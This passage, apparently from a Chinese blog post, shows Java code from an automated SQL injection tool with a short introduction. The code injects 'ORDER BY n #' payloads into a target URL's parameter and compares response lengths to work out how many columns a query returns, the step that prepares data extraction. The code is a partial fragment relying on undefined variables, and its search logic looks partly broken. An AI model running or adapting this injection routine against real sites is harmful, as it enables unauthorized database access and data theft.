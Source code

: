 获取字段数主要是通过：

```
/**
     * 获取查询字段数
     * @param str
     */
    public static int getSelectColumnCount(String str[]){
        Map<String,Object> sb = HttpHelper.sendGet(protocol+"://"+schema+":"+port+"/"+filesIndex+"/"+file,parameter);//原始的请求包
        int len1 = sb.get("content").toString().length();//原始请求的 response 长度
        int count = -1;
        for (Object o : sqlKey) {
            count = getSbCount(o.toString(), len1);//计算字段
        }
        return count;
    }

/**
     *获取 order by 字段数
     * @param key
     * @param len1
     * @return
     */
    public static int getSbCount(String key,int len1){
        System.out.println("-----------------------end:"+end+"-----------------------------");
        Map<String,Object> sb = HttpHelper.sendGet(uri, parameter.replace(key, key+"+orDer+By+"+end+"+%23"));
        if (1 == end|| len1==((String)sb.get("content")).length()&&200==(Integer)sb.get("status")) {
            System.out.println("index:"+end);
            start = end;
            for (int i = start; i < 2*start+1; i++) {
                System.out.println("************开始精确匹配*****************");
                Map<String,Object> sb2 = HttpHelper.sendGet(uri, parameter.replace(key, key+"+orDer+By+"+end+"+%23"));
                Map<String,Object> sb3 = HttpHelper.sendGet(uri, parameter.replace(key, key+"+orDer+By+"+(end+1)+"+%23"));
                if (((String)sb3.get("content")).length()!=((String)sb2.get("content")).length()&&200==(Integer)sb2.get("status")) {
                    System.out.println("order by 字段数为:"+end);
                    sbCount = end;//设置字段长度为当前检测出来的长度
                    return index = end;
                }else {
                    end++;
                }
            }
        }else {
            end = end/2;
            getSbCount(key, len1);
        }
        return index;
    } 
```
